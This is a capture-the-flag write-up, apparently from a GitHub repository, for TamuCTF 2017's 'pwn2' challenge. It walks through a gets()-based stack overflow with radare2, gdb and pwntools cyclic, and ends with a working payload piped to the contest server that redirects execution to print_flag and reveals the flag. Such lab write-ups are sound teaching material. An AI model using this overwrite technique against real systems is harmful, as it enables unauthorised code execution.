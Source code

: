 # [TamuCTF 2017](https://ctf.tamu.edu/)
### pwn2 - 100 Points

![Pwn2 challenge description](assets/1-pwn2_description.png)

We are given a source code file and a binary which is being run remotely.
Let's a analyze it with radare2:

```bash
$ wget https://ctf.tamu.edu/files/dacdf9d7951deede662f1b89e4ec2a90/pwn2
$ r2 pwn2
[0x08048450]> aaa		# Analyze
[0x08048450]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    1 84           sym.echo
0x08048606    1 36           sym.main
.
.
```

We can see similar functions to the previous pwning challenge, but there a complication here: if we look closely...

```bash
[0x080485c0]> s sym.print_flag 
[0x0804854b]> axt
[0x0804854b]>
```

We realize that **print_flag** function, which is responsible for printing the flag stored in **flag.txt**, is never called!  
Instead a new function named **echo** is called from **main** function.

![Pwn2 call in main function](assets/2-pwn2_call_echo_in_main.png)

Lets see what it does:

```bash
$ pdf @ sym.echo
```
![Pwn2 echo function content](assets/3-pwn2_echo_function.png)

Ok, so aparently it just prints back whatever you input before. But hey! To read your input it uses `gets` insecure function again!  That means we can write beyond the allocated memory for our input.
> "All right, but this case is not like the previous one! ([pwn1 challenge](../pwn1/pwn1.md)).  
> We do not want to change the value of a variable, but to call an existent function!"
> Is it possible?

Hell yeah! but to know how, we first need to understand how the stack is affected when calling a function (echo in this case).  
When a function is going to be called, some data is going to be pushed into the stack. Among other things one of the stuff is stored is the EIP register.

> "Why this register? Why is it special?"

The purpose of EIP register (or instruction pointer) is to indicate the CPU which instruction has to be executed after the current one. When the **echo** function finishes the CPU will need to continue the execution right after the call.  
Like this:

![Pwn2 Normal execution flow](assets/4-pwn2_normal_flow.png)    

And the stack will look like:

![Pwn2 Stack view on echo call](assets/5-pwn2_stack_view.png)    

Nice :v:!, looking at the stack we realize we could just write a bunch of bytes until we reach the **Saved EIP** value!

> Okay but ... how many bytes do we have to write?

Well, in this case we can calculate like `0x88h + 4d (ESP length) = 140d`, but I'll calculate another way too.  
Lets use gdb (GNU Debugger).

```bash
$ python -c 'print("A"*500)' > input.txt    # We generate a long string and save it in a text file.
$ gdb pwn2                                  # We open the binary with gdb.
(gdb) run < input.txt                       # Run the binary with the content of input.txt as input.
```

![Pwn2 GDB executing pwn2](assets/6-pwn2_gdb.png) 

We ran the binary with gdb and passed 500 "A"s as input.
That `0x41414141` means that we have overwritten EIP register with value "AAAA" and the process crashed when it tried to execute the instrucction of that address (obviously there is nothing there).

So now we could just create a custom string like "ABCDEF...." to figure out which part of the string is being used to overwrite the EIP ... OR we can use a script which generates it for us :grin:.

Now is when it comes the **pwntools** for python (to install just do `$ pip install pwntools`) and more specifically its
**cyclic** utility. **Cyclic** is able to generate a sequence of unique substrings of any length (4 by default).

Lets try it!

```bash
$ pwn cyclic 500 > input.txt  # Generate a string of 500 chars with unique substrings of 4 characters.
$ gdb pwn2
(gdb) run < input.txt
```

![Pwn2 GDB Executing pwn2](assets/7-pwn2_gdb_cyclic.png) 

To check that value we do:
```bash
$ pwn cyclic -l 0x6261616b
140
```

And finally, after 140 Characters we write a new address to continue the execution. Which address? the address of the **print_flag** function, of course! The new execution flow will look like this:

![Pwn2 Modified execution flow](assets/8-pwn2_modified_flow.png) 

Lets get our flag:
```bash
$ python -c 'print("A"*140 + "\x4b\x85\x04\x08")' | nc pwn.ctf.tamu.edu 4321 
Enter a word to be echoed:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAK�
This function has been deprecated
gigem{D34D_FUNC_R1S1NG}
```

Answer: gigem{D34D_FUNC_R1S1NG}

### Complete video

<a href="https://asciinema.org/a/e8oyx42bm4nbs5stm33o4x24s?autoplay=1"><img src="https://asciinema.org/a/e8oyx42bm4nbs5stm33o4x24s.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [gdb](https://www.gnu.org/software/gdb/) - For binary debugging.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.

